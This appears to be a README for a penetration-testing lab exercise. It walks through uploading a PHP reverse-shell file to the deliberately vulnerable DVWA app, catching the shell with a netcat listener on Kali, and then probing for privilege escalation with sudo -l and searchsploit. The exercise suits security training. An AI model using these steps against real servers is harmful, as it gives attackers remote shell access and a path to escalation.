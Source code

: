 # Setup and Usage Instructions

1. Ensure Kali Linux and DVWA are on the same network and that you know both IP addresses.

2. Download or edit the `reverse.php` file with your Kali IP and chosen port.

3. Start the Netcat listener on Kali:

   ```
   nc -lvnp 4444
   ```

4. Upload the `reverse.php` file to the DVWA application using the file upload function.

5. Open your browser and navigate to the uploaded script URL:

   ```
   http://[DVWA_IP]/dvwa/hackable/uploads/reverse.php
   ```

6. You will get a reverse shell connection in your Kali terminal.

# Tips

- If the shell disconnects, try refreshing the URL in the browser.
- Check sudo permissions using `sudo -l` to explore privilege escalation possibilities.
- Use `searchsploit` on Kali to find relevant exploits for the target's kernel version.
